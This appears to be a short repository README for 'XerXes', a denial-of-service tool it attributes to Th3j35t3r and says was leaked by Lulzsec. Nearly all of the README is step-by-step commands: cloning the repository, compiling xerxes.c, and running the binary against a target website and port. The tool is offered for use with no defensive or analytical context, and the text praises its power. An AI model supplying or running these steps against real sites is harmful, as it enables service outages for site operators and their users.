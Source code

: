 # XerXes
The DoS tool created by Th3j35t3r, considered one of the most powerful tools since it's creation, leaked by Lulzsec.

### CLONE
<hr>
```
$ git clone https://github.com/CyberXCodder/XerXes.git
```
### COMPILE
<hr>
```
$ cd XerXes
$ gcc xerxes.c -o xerxes
```
### RUN
```
$ ./xerxes www.fakesite.com 80
```
